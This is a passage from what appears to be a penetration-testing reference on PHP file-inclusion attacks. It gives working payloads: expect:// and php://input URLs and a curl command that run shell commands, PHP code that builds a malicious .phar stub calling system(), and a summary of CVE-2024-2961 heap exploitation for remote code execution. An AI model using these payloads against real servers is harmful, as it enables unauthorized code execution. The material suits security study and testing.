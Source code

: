 ### expect://

Expect has to be activated. You can execute code using this:

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### input://

Specify your payload in the POST parameters:

```bash
curl -XPOST "http://example.com/index.php?page=php://input" --data "<?php system('id'); ?>"
```

### phar://

A `.phar` file can be utilized to execute PHP code when a web application leverages functions such as `include` for file loading. The PHP code snippet provided below demonstrates the creation of a `.phar` file:

```php
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');
$phar->stopBuffering();
```

To compile the `.phar` file, the following command should be executed:

```bash
php --define phar.readonly=0 create_path.php
```

Upon execution, a file named `test.phar` will be created, which could potentially be leveraged to exploit Local File Inclusion (LFI) vulnerabilities.

In cases where the LFI only performs file reading without executing the PHP code within, through functions such as `file_get_contents()`, `fopen()`, `file()`, `file_exists()`, `md5_file()`, `filemtime()`, or `filesize()`, exploitation of a deserialization vulnerability could be attempted. This vulnerability is associated with the reading of files using the `phar` protocol.

For a detailed understanding of exploiting deserialization vulnerabilities in the context of `.phar` files, refer to the document linked below:

[Phar Deserialization Exploitation Guide](phar-deserialization.md)

{% content-ref url="phar-deserialization.md" %}
[phar-deserialization.md](phar-deserialization.md)
{% endcontent-ref %}

### CVE-2024-2961

It was possible to abuse **any arbitrary file read from PHP that supports php filters** to get a RCE. The detailed description can be [**found in this post**](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1)**.**\
Very quick summary: a **3 byte overflow** in the PHP heap was abused to **alter the chain of free chunks** of anspecific size in order to be able to **write anything in any address**, so a hook was added to call **`system`**.\
It was possible to alloc chunks of specific sizes abusing more php filters.
